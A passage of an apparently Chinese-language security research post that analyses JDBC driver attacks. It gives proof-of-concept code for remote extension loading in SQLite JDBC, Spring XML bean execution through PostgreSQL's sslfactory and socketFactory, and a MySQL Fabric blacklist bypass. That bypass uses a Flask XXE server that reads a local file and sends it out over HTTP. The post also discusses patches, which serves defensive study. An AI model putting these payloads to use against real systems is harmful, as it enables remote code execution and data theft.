String extensionUrl = "http://127.0.0.1:8001/poc.so";
URL resourceAddr = new URL(extensionUrl);
String extensionPath = String.format("/tmp/sqlite-jdbc-tmp-%d.db", resourceAddr.hashCode());
System.out.println(extensionPath);
createDb(extensionPath);
System.out.println(System.getProperty("java.io.tmpdir"));
// upload extension file
Connection conn =
DriverManager.getConnection(
String.format("jdbc:sqlite::resource:%s", extensionUrl));
conn.close();
// poc
String url =
"jdbc:sqlite::resource:http://127.0.0.1:8001/poc.db?enable_load_extension=true";
Connection connection = DriverManager.getConnection(url);
connection.setAutoCommit(true);
Statement statement = connection.createStatement();
statement.execute("SELECT * FROM POC");
statement.close();
connection.close();
}运行结果如下

SQLite Magellan
有关
SQLite Magellan漏洞，参考腾讯 Blade 团队的议题，https://i.blackhat.com/USA-19/Thursday/us-19-Qian-Exploring-The-New-World-Remote-Exploitation-Of-SQLite-And-Curl-wp.pdf。
CVE-2023-32697
前面分析完 SQLite Driver 的利用方法后，可以认定它是一个漏洞了，但是当查找 SQLite Driver 的历史漏洞时（如果没有重复的，就可以尝试给维护者发邮件了）发现 2023 年 5 月份已经有一个 JDBC 漏洞 CVE-2023-32697。
补丁如下：
补丁中增加了临时文件名的随机性，很明显前面的利用方式已经有人发现并提交官方修复了。

PostgreSQL
PostgreSQL Driver 的部分属性设置中，支持设定自定义类（和参数）
sslfactorysslfactoryarg
socketFactorysocketFactoryArg
sslhostnameverifiersslpasswordcallbackauthenticationPluginClassName
可利用的主要有两个 sslfactory 和 socketFactory，其它三个无法传递参数，造成漏洞的核心代码位于 org.postgresql.util.ObjectFactory，
public static Object instantiate(String classname, Properties info, boolean tryString, String stringarg) throws ... {
Object[] args = new Object[]{info};
Constructor<?> ctor = null;
Class<?> cls = Class.forName(classname);
try {
ctor = cls.getConstructor(Properties.class);
} catch (NoSuchMethodException var9) {
}
if (tryString && ctor == null) {
try {
ctor = cls.getConstructor(String.class);
args = new String[]{stringarg};
} catch (NoSuchMethodException var8) {
}
}
if (ctor == null) {
ctor = cls.getConstructor();
args = new Object[0];
}
return ctor.newInstance(args);
}这两个属性的处理逻辑位于 org.postgresql.core.SocketFactoryFactory，
public static SocketFactory getSocketFactory(Properties info) throws PSQLException {
// Socket factory
String socketFactoryClassName = PGProperty.SOCKET_FACTORY.get(info);
if (socketFactoryClassName == null) {
return SocketFactory.getDefault();
}
try {
return (SocketFactory) ObjectFactory.instantiate(socketFactoryClassName, info, true,
PGProperty.SOCKET_FACTORY_ARG.get(info));
// ...
public static SSLSocketFactory getSslSocketFactory(Properties info) throws PSQLException {
String classname = PGProperty.SSL_FACTORY.get(info);
if (classname == null
|| "org.postgresql.ssl.jdbc4.LibPQFactory".equals(classname)
|| "org.postgresql.ssl.LibPQFactory".equals(classname)) {
return new LibPQFactory(info);
}
try {
return (SSLSocketFactory) ObjectFactory.instantiate(classname, info, true,
PGProperty.SSL_FACTORY_ARG.get(info));
// ...
```
根据代码中的内容，和官方文档的介绍

指定的类需要有接收 `String` 类型、或 `Properties` 类型的构造方法，或无参构造方法。`pyn3rd` 在他的文章 [Make JDBC Attacks Brilliant Again II](https://pyn3rd.github.io/2022/06/02/Make-JDBC-Attacks-Brilliant-Again/) 中已经介绍了利用方法，其中除了涵盖 `sslfactory` 和 `socketFactory` 的利用外，还包括另外两个属性 `loggerLevel` 和 `loggerFile` 下的利用（文件写入）。
文章中列举的工具类如下：
- `org.springframework.context.support.ClassPathXmlApplicationContext`
- `org.springframework.context.support.FileSystemXmlApplicationContext`
- `java.io.FileOutputStream`
Poc 文件，
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="
http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
<constructor-arg >
<list>
<value>open</value>
<value>-a</value>
<value>calculator</value>
</list>
</constructor-arg>
</bean>
</beans>Sslfactory & Sslfactoryarg
当建立 Socket 连接后，会发送请求数据。如果响应内容中的第一个字符为 S [19]，那么就调用 MakeSSL.convert [20]。
private PGStream enableSSL(PGStream pgStream, SslMode sslMode, Properties info,
if (sslMode == SslMode.DISABLE) {
return pgStream;
}
if (sslMode == SslMode.ALLOW) {
// Allow ==> start with plaintext, use encryption if required by server
return pgStream;
}
LOGGER.log(Level.FINEST, " FE=> SSLRequest");
// Send SSL request packet
pgStream.sendInteger4(8);
pgStream.sendInteger2(1234);
pgStream.sendInteger2(5679);
pgStream.flush();
// Now get the response from the backend, one of N, E, S.
int beresp = pgStream.receiveChar();
switch (beresp) {
case 'E':
LOGGER.log(Level.FINEST, " <=BE SSLError");
// Server doesn't even know about the SSL handshake protocol
if (sslMode.requireEncryption()) {
throw new PSQLException(GT.tr("The server does not support SSL."),
PSQLState.CONNECTION_REJECTED);
}
// We have to reconnect to continue.
return new PGStream(pgStream, connectTimeout);
case 'N':
LOGGER.log(Level.FINEST, " <=BE SSLRefused");
// Server does not support ssl
if (sslMode.requireEncryption()) {
throw new PSQLException(GT.tr("The server does not support SSL."),
PSQLState.CONNECTION_REJECTED);
}
return pgStream;
case 'S': // [19]
LOGGER.log(Level.FINEST, " <=BE SSLOk");
// Server supports ssl
org.postgresql.ssl.MakeSSL.convert(pgStream, info); // [20]
return pgStream;Poc 代码如下，
@Test
public void sslFactory() throws SQLException {
String url = "jdbc:postgresql://localhost/test?sslfactory=org.springframework.context.support.ClassPathXmlApplicationContext&sslfactoryarg=ftp://127.0.0.1:2121/bean.xml";
DriverManager.getConnection(url);
}python3 -m pyftpdlib -d . 打开一个 ftp 服务，传输 xml 文件。通过 nc -l 5432 监听端口，连接后，输入 S 并返回。
socketFactory & socketFactoryArg
没有需要特别注意的地方，Poc 代码如下
@Test
public void socketFactory() throws SQLException {
String url = "jdbc:postgresql://localhost/test?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=ftp://127.0.0.1:2121/bean.xml";
DriverManager.getConnection(url);
}修复与绕过
PPT 中提到了两个开源软件的修复方案
Apache Druid CVE-2021-26919 Patch
具体见 commit
public static void throwIfPropertiesAreNotAllowed(
Set<String> actualProperties,
Set<String> systemPropertyPrefixes,
Set<String> allowedProperties
)
{
for (String property : actualProperties) {
if
(systemPropertyPrefixes.stream().noneMatch(property::startsWith)) {
Preconditions.checkArgument(
allowedProperties.contains(property),
"The property [%s] is not in the allowed list %s",
property, allowedProperties
);
}
}Apache DolphinScheduler CVE-2020-11974 Patch
private final Logger logger = LoggerFactory.getLogger(MySQLDataSource.class);
private final String sensitiveParam = "autoDeserialize=true";
private final char symbol = '&';
@Override
protected String filterOther(String other){
if (other.contains(sensitiveParam)){
int index = other.indexOf(sensitiveParam);
String tmp = sensitiveParam;
if (other.charAt(index-1) == symbol){
tmp = symbol + tmp;
} else if(other.charAt(index + 1) == symbol){
tmp = tmp + symbol;
}
logger.warn("sensitive param : {} in otherParams field is filtered", tmp);
other = other.replace(tmp, "");
}从修复方式上看，都是采用的黑名单。为此作者提出，针对 Druid 可以使用 com.mysql.fabric.jdbc.FabricMySQLDriver 绕过，并通过 SSRF 漏洞配合 XML 外部实体注入进行利用。
有关
fabric和一般mysql的区别可以参考 What’s the difference between MySQL Fabric and MySQL Cluster - Database Administrators Stack Exchange。
作者以 fabric 为例演示了具体的利用方法『只要 fabirc 能绕过黑名单，且只使用了 Druid 补丁中允许的属性，那么就可以利用』
分析版本为
mysql-connector-java:5.1.49
首先由 com.mysql.fabric.jdbc.FabricMySQLDriver#acceptsURL 可以知道 URL 连接串的格式要求需要以 jdbc:mysql:fabric:// 开头。
@Override
public boolean acceptsURL(String url) throws SQLException {
return parseFabricURL(url, null) != null;
}
Properties parseFabricURL(String url, Properties defaults) throws SQLException {
if (!url.startsWith("jdbc:mysql:fabric://")) {
return null;
}
// We have to fudge the URL here to get NonRegisteringDriver.parseURL() to parse it for us.
// It actually checks the prefix and bails if it's not recognized.
// jdbc:mysql:fabric:// => jdbc:mysql://
return super.parseURL(url.replaceAll("fabric:", ""), defaults);
}查看 com.mysql.fabric.jdbc.FabricMySQLDriver#connect 方法，通过反射创建 com.mysql.fabric.jdbc.JDBC4FabricMySQLConnectionProxy，
@Override
public Connection connect(String url, Properties info) throws SQLException {
Properties parsedProps = parseFabricURL(url, info);
if (parsedProps == null) {
return null;
}
parsedProps.setProperty(FABRIC_PROTOCOL_PROPERTY_KEY, "http");
if (com.mysql.jdbc.Util.isJdbc4()) {
try {
Constructor<?> jdbc4proxy = Class.forName("com.mysql.fabric.jdbc.JDBC4FabricMySQLConnectionProxy")
.getConstructor(new Class[] { Properties.class });
return (Connection) com.mysql.jdbc.Util.handleNewInstance(jdbc4proxy, new Object[] { parsedProps }, null); // [12]
}在 JDBC4FabricMySQLConnectionProxy 构造方法中会调用至 FabricConnection 的构造方法，
// JDBC4FabricMySQLConnectionProxy -> FabricMySQLConnectionProxy -> FabricConnection
public JDBC4FabricMySQLConnectionProxy(Properties props) throws SQLException {
super(props);
}
public FabricMySQLConnectionProxy(Properties props) throws SQLException {
props.getProperty("exceptionInterceptors");
// ...
try {
String url = this.fabricProtocol + "://" + this.host + ":" + this.port;
this.fabricConnection = new FabricConnection(url, this.fabricUsername, this.fabricPassword);
// ...
}
public FabricConnection(String url, String username, String password) throws FabricCommunicationException {
this.client = new XmlRpcClient(url, username, password);
refreshState();
}可以看到创建了一个 XmlRpcClient，并调用 refreshState 方法发起请求，
public int refreshState() throws FabricCommunicationException {
FabricStateResponse<Set<ServerGroup>> serverGroups = this.client.getServerGroups(); // [13][13] 逐步调用至 getServerGroups，
public FabricStateResponse<Set<ServerGroup>> getServerGroups(String groupPattern) throws FabricCommunicationException {
int version = 0; // necessary but unused
Response response = errorSafeCallMethod(METHOD_DUMP_SERVERS, new Object[] { version, groupPattern });最终会通过 HTTP 协议在 Client#execute 方法中发起请求，并解析响应内容 [15]，不过在分析的版本中（5.1.49）关闭了实体的解析 [14]，但是 (0, 5.1.48] 中是没有设置的。
public MethodResponse execute(MethodCall methodCall) throws IOException, ParserConfigurationException, SAXException, MySQLFabricException {
HttpURLConnection connection = null;
try {
connection = (HttpURLConnection) this.url.openConnection();
connection.setRequestMethod("POST");
connection.setRequestProperty("User-Agent", "MySQL XML-RPC");
connection.setRequestProperty("Content-Type", "text/xml");
// ...
// Get Response
InputStream is = connection.getInputStream();
SAXParserFactory factory = SAXParserFactory.newInstance();
factory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true); // [14]
SAXParser parser = factory.newSAXParser();
ResponseParser saxp = new ResponseParser();
parser.parse(is, saxp); // [15]Poc 代码如下
测试环境
mysql-connector-java:5.1.48
@Test
public void fabric() throws SQLException {
String url = "jdbc:mysql:fabric://127.0.0.1:5000";
Connection conn = DriverManager.getConnection(url);
}恶意 XML 服务代码如下
from flask import Flask
app = Flask(__name__)
@app.route('/xxe.dtd', methods=['GET', 'POST'])
def xxe_oob():
return '''<!ENTITY % aaaa SYSTEM "fiLe:///tmp/data">
<!ENTITY % demo "<!ENTITY bbbb SYSTEM
'http://127,0.0.1:5000/xxe?data=%aaaa;'>"> %demo;'''
@app.route('/', methods=['GET', 'POST'])
def dtd():
return '''<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE ANY [
<!ENTITY % xd SYSTEM "http://127.0.0.1:5000/xxe.dtd"> %xd;]>
<root>&bbbb;</root>'''
if __name__ == '__main__':
app.run()参考
- HITBSecConf2021SIN Materials
- Make JDBC Attacks Brilliant Again I
- Make JDBC Attacks Brilliant Again II
- JDBC driver - IBM Documentation
- IBM Documentation - IBM Documentation
- What’s the difference between MySQL Fabric and MySQL Cluster - Database Administrators Stack Exchange
- SQL JDBC driver API · Apache Druid
- 编写一个最小的 64 位 Hello World - CJ Ting’s Blog